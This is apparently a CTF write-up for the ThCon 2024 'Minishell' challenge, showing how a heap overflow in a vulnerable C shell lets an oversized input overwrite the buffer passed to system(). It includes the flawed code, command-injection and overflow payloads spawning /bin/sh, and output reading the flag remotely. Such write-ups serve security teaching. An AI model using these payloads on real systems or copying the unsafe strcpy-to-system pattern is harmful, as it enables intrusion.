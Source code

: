 ```yaml
---
title: "Minishell (pwn) Write-Up CTF ThCon 2024"
summary: "Good introduction to basic heap buffer overflow through a custom vulnerable minimalistic shell in C"
date: 2024-04-07T12:32:53+0200
lastUpdate: 2024-04-07T12:32:53+0200
tags: ["pwn", "introduction", "write-up", "Supwn"]
author: ctmbl
draft: false
---
```


> **IMPORTANT**: You can also find this WU (and others), with **the source code** [on my GitHub](https://github.com/ctmbl/ctf-write-ups/tree/main/THCon-2024)

## Basics

First of all we don't have binaries associated with the challenge so I add to compile them:
```
gcc log.c -o log
gcc minishell.c -lcrypto -o minishell
```

Once this is done we can start reading the source code!

> **Note**:  
> Contrary to what I'm used to say and do, here there is no need to inspect the binary with `file`, `checksec`, `strings`, `ldd`, `ltrace` and `strace` because we compiled it ourself!  
> We can not ensure that it has been compiled the same way in remote, still, it can be useful to experiment a bit.

## Source code inspection

So let's read the code!
`log.c` is really simple, just a `main` function, it's a logging tool, it will write its arguments passed in command line to a log file, that's all.

`minishell.c` is really something else: 269 lines of code.  
When reading `C` code I always start looking globally at the function names and then I deep into the `main` function first.
Here it helped a lot, in `main` we quickly note that there is a bunch of variables initialization, some memory allocation and then a `while(1)`!
This is the infinite loop allowing the shell to always wait for user instructions.

We understand that the user is prompted for a string, which is then verified (some characters are forbidden in `commandAllowed` maybe there is something here) and parsed with `strtok`.
Then a bunch of `if else` identify which function to execute given the user command. At that point I could have started looking into each and every function to look for vulnerabilities, but I didn't.
I wanted to first finish the reading of `main` and I chose really well.

So we continue reading `main` to the last `else` (in case the command doesn't match any predefined strings), and there we have some really interesting stuff!
```C
             }else {
               char  *log = malloc(256 * sizeof(char));
                strcpy(log, "./log Error with command:");


                strcpy(arg, cmd);
                strcat(log, arg);
                system(log);

                printf("Unknow command, this event has been reported\n");
            }
```
Some `strcpy`, a `strcat` and above all a `system` call!

Of course it instantly caught my eye: if we were able to control the `log` variable, we could inject some commands here.
Unfortunately a predefined string is written in `log` and even if we control `cmd` it is just appended to `./log Error with command:` (remember `./log` is the second binary compiled at the beginning) by `strcat` and because special characters like `;` or `&&` are forbidden we cannot inject a 2nd command to `log` 😢

> **Note**:  
> However I noticed first that at the beginning of the `while` loop `buffer` is copied into `cmd` **before** verifying it with `commandAllowed`.  
> So I tested an exploit where I injected some forbidden command `aa; /bin/sh` which won't be executed **but will be written in `cmd` anyway**.  
> And then I inject a second one `a` which is allowed but unrecognized: the idea was that it didn't totally overwrite `cmd` which then would be something like `a\n; /bin/sh` and be appended to `log` then executed.  
> Unfortunately, `strcpy` (or other reason) adds a `\x00` between the "new" injection `a` and the "remaining" one in `cmd`, so it ends the string and even if the payload is there in the stack it isn't copied in `log` and wouldn't have been executed by `system` anyway.  
> So close!

So the real vulnerability is still here lying under our eyes: simply `arg` is not the same size as `cmd`, then when copying a long `cmd` into `arg` it overflows.
```C
    char* buffer = malloc(256 * sizeof(char));
    char* cmd = malloc(256 * sizeof(char));
    char  *arg = malloc(32 * sizeof(char));
```
Because `arg` is in the heap the question is then: what do we overflow?
And the answer is "if it's the first prompt, probably `log` which is alloc'd after `arg`", and finally we control `log`!!!

## Exploitation

Now `arg` is 32 bytes long, and because we're in the heap we will first overwrite the chunk header before overwriting `log`'s content.
To determine exactly the padding needed for our payload, either we know the heap chunk header size, or we use `gdb` (which is often really useful) but even simpler: a smart payload such as: `AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGG` (generated with a `for` loop in python to avoid silly mistakes...) will easily do the job.  
We inject it and see:
```
$ ./minishell
spaceshell> AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGG
sh: line 1: GGGGGGGG: command not found
sh: line 2: AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGG: command not found
sh: line 3: AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDE: command not found
Unknow command, this event has been reported
spaceshell>
```
Victory! `GGGGGGGG` is executed as a command (I confirmed it with `ltrace ./minishell` and saw the execution of `system` with our payload and the result).
We then infer that an heap chunk header was 16 bytes long because our payload padding is `AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFF` which is 48 bytes, minus the 32 of `arg` we get 16 bytes for the header.

The final payload is of course: `AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFF/bin/sh` and like that we get our shell 😉

Locally:
```
$ ./minishell
spaceshell> AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFF/bin/sh
sh-5.2$ whoami
ctmbl
```
Remotely (I could have used `/bin/sh` too of course):
```
$ nc 20.19.241.70 3001
spaceshell> AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFcat /home/ctf/flag.txt
THCON{G00d_0ld_0v3rfl0w}Unknow command, this event has been reported
```
🎉🎉🎉🎉

A good old overflow for sure 🙂, but a good reminder and a nice introduction to heap overflow overall 😉

## Resources

> If any doubts you can always contact me on Discord `ctmbl` or issue on my [GitHub](https://github.com/ctmbl/ctf-write-ups/issues) if you need more information or resources 😉

Links:
- what is a buffer overflow: https://en.wikipedia.org/wiki/Buffer_overflow#Example
- more about heap structure and exploitation: https://heap-exploitation.dhavalkapil.com/diving_into_glibc_heap/malloc_chunk
- `strcpy`: https://man7.org/linux/man-pages/man3/strcpy.3.html
- `strcat`: https://linux.die.net/man/3/strcat
- `strtok`: https://man7.org/linux/man-pages/man3/strtok.3.html
- `system`: https://man7.org/linux/man-pages/man3/system.3.html
